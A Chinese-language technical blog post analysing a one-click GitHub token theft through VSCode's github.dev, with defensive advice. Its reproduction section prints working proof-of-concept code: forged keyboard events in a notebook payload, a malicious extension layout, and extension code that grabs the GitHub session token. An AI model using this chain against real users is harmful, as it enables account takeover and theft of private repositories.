








点一下链接，你的 GitHub Token 就没了——VSCode github.dev 高危漏洞拆解
- VSCode
- 安全
- GitHub
- Web安全
6月2日，安全研究员 Ammar Askar 披露了一个 VSCode 漏洞：点一个链接，就能窃取你的 GitHub Token，拿到所有仓库（含私有）的读写权限。 PoC 已公开，攻击链完整可复现。
攻击入口：github.dev
github.dev 是 GitHub 的在线编辑器，把 github.com 改成 github.dev 就能在浏览器里跑 VSCode。问题是：github.com 会把一个不限仓库范围的 OAuth Token POST 给 github.dev。

浏览器里的 VSCode + 全权限 GitHub token。攻击者眼里的完美组合。
漏洞：keydown 事件穿透
VSCode 用 iframe + 不同 origin 隔离 webview，理论上 Notebook 里的恶意 JS 碰不到主窗口。

但为了快捷键体验，VSCode 在 webview 里监听 keydown 事件并冒泡到主窗口：
contentWindow.addEventListener('keydown', (e) => {
hostMessaging.postMessage('did-keydown', {
key: e.key, ctrlKey: e.ctrlKey, shiftKey: e.shiftKey
});
});
没有任何机制阻止 webview 脚本伪造 KeyboardEvent。 恶意脚本可以模拟任意快捷键，主窗口分不出真假。
攻击链：三步组合
单看每一步都不算漏洞，组合起来就是完整 RCE。
1. 伪造快捷键接受通知
VSCode 的 Ctrl+Shift+A 会接受最近一条通知的主按钮。攻击者 dispatch 一个 keydown 就行。
2. 利用扩展推荐机制
仓库的 .vscode/extensions.json 可以推荐扩展，用户打开时弹通知。攻击者把恶意扩展写进推荐列表，用伪造的 Ctrl+Shift+A 自动点安装。

3. 绕过发布者信任检查
VSCode 1.97 有发布者信任系统，但受信任工作空间里的本地扩展可以跳过。github.dev 默认受信任。

攻击者把恶意扩展放 .vscode/extensions/ 下，通过自定义 keybind 绕过信任检查直接安装。
完整流程
Jupyter Notebook 的 Markdown cell 里放 <img onerror> 触发 JS → 等 10 秒 → 伪造 Ctrl+Shift+A 接受通知 → 等 500ms → 伪造 Ctrl+F1 安装恶意扩展 → 拿 token → 读所有私有仓库 → 外传。
全程零交互，除了最初那个点击。
复现步骤（仅供研究）
⚠️ 用测试账号和空仓库。
仓库结构：
malicious-repo/
├── README.ipynb # payload 在这里
├── .vscode/
│ ├── extensions.json # {"recommendations": ["attacker.evil-extension"]}
│ └── extensions/
│ └── evil-ext/ # 本地恶意扩展
│ ├── package.json # 自定义 keybind → installExtension
│ └── extension.js # 读取 GitHub token 并外传
Notebook payload 核心：
await sleep(10000);
// 伪造 Ctrl+Shift+A 接受通知
window.dispatchEvent(new KeyboardEvent('keydown', {
key: 'a', code: 'KeyA', keyCode: 65, ctrlKey: true, shiftKey: true
}));
await sleep(500);
// 伪造 Ctrl+F1 触发自定义 keybind
window.dispatchEvent(new KeyboardEvent('keydown', {
key: 'F1', code: 'F1', keyCode: 112, ctrlKey: true
}));
extension.js 核心：
const session = await vscode.authentication.getSession('github', ['repo'], { createIfNone: true });
const token = session.accessToken;
const repos = await fetch('https://api.github.com/user/repos', {
headers: { 'Authorization': `token ${token}` }
}).then(r => r.json());
访问 https://github.dev/<username>/malicious-repo/blob/main/README.ipynb 即可触发。


影响与自保
| 场景 | 风险 |
|---|---|
| github.dev | 高（点链接即触发） |
| VSCode 桌面版 | 中（需 clone + 打开 Notebook） |
| 其他 Webview XSS | 高（可升级为 RCE） |
现在就做：
- 清除 github.dev 本地存储 — Chrome 地址栏图标 → Cookies and site data → 删除 github.dev 相关条目


- 审计 GitHub OAuth 授权 — Settings → Applications → Authorized OAuth Apps
- 对 github.dev 链接保持警惕 — 先看仓库内容再决定开不开
几句闲话
VSCode 的纵深防御没毛病：CSP 阻止了扩展页 XSS，DOMPurify 净化了 Markdown，iframe 隔离架构也对。问题出在 keydown 转发这个"为了体验"的设计决策。
每个为了便利性绕过安全边界的决策，都是潜在的攻击面。这不是 VSCode 的特例，是所有软件工程的通用规律。
研究员选 Full Disclosure 也有原因——之前向 MSRC 报告 VSCode 安全问题，微软默默修了 bug 没给致谢，还标记为"无安全影响"。安全研究者的劳动不该被轻视。
⚠️ 网络安全免责声明
本文内容仅供技术研究与安全学习之用。请勿将本文所述技术用于任何未经授权的安全测试、渗透攻击或非法用途。任何因滥用本文信息而造成的法律后果，由使用者自行承担，与本文作者无关。
如发现系统安全漏洞，请通过合法渠道向相关厂商或平台报告，共同维护网络安全生态。
参考来源：1-Click GitHub Token Stealing via a VSCode Bug — Ammar Askar, 2026-06-02